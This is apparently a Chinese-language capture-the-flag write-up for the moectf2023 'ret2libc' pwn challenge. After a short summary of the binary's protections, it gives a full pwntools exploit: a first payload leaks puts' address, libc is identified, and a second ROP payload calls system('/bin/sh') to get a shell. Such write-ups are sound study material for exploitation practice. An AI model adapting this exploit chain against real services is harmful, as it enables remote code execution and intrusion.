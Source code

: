 ```yaml
---
title: moectf2023 - ret2libc
date: 2023/9/24 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用ret2libc漏洞实现远程代码执行的CTF题解。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

vuln函数里就写了利用ret2libc...和之前一样

## EXPLOIT

```python
import LibcSearcher
from pwn import *
sh = remote('localhost', 39671)
elf = ELF('ret2libc')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x40117e
vulnAddr = elf.symbols['vuln']

# payload 1
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvuntil(b'??\n\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x40122a

# payload 2
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
